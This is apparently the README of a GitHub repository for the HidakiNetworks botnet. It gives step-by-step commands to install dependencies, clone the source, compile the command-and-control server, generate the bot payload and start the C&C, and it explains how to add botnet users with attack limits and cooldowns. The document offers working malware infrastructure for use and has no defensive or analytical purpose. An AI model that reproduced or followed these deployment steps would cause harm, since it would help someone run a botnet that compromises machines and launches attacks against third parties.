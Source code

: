 # HidakiNetworks
<p>
<img src="https://cdn.discordapp.com/attachments/1156506398323130368/1233875286865477632/hidaki_screen_1.png">
</p>

this is a source of [HidakiNetworks](https://t.me/hidakiteam) botnet\
Tested on Debian 10, 11 and Ubuntu 18.04, 20.04

## Installing
Guide for Ubuntu/Debian\
**Installing dependencies**
```bash
apt update && apt upgrade -y
apt install libbz2-1.0 libc6 liblzma5 perl zlib1g bzip2 python2 python -y
apt install nano screen gcc wget libzip-dev unzip git apache2 -y
```

**Copy sources**\
You must put sources into the /root directory!!
```bash
cd /root
git clone https://github.com/shittzuka/hidaki.git
mv hidaki/* /root
rm README.md
```

**Building sources**
```bash
gcc server.c -o srv -pthread
python2 compile.py
```
You will get payload from compile.py

**Starting cnc**
```bash
chmod 777 *
screen ./srv 4258 1 <cnc port here>
```

## Adding users
For adding user, you must add a string in users/login.txt.\
<name> <pass> <group> <time> <cooldown> <attacks> <expire>
Example: root shittzukamygod admin 9999 3 10 99/99/9999

## Credits
[HidakiTeam](https://t.me/hidakiteam) - Created botnet\
[sh!ttzuka](https://t.me/tnkwa) - Added sources on Git ;D